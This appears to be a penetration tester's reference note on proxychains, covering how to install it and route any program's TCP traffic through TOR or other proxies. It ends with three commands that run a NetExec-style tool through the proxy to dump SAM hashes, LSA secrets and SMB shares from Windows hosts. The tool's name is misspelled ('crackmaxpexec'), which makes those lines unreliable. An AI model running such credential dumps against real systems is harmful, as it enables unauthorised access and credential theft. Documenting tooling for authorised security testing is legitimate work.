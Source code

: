 # About
A tool that forces any TCP connection made by any given application to follow through proxy like TOR or any other SOCKS4, SOCKS5 or HTTP(S) proxy. Supported auth-types: "user/pass" for SOCKS4/5, "basic" for HTTP.
## Links
[Github](https://github.com/haad/proxychains)
# Installing
- Source
```
git clone https://github.com/haad/proxychains.git && cd proxychains
./configure
make
sudo make install
```
# Usage
General
```
proxychains COMMAND
```

Passing various [[NetExec]] commands
- Dump SAM:
```
sudo proxychains crackmaxpexec smb ip -u user -p '' -d domain --sam
```

- Dump LSA:
```
sudo proxychains crackmaxpexec smb ip -u user -p '' -d domain --lsa
```

- Dump shares:
```
sudo proxychains crackmaxpexec smb ip -u user -p '' -d domain --shares
```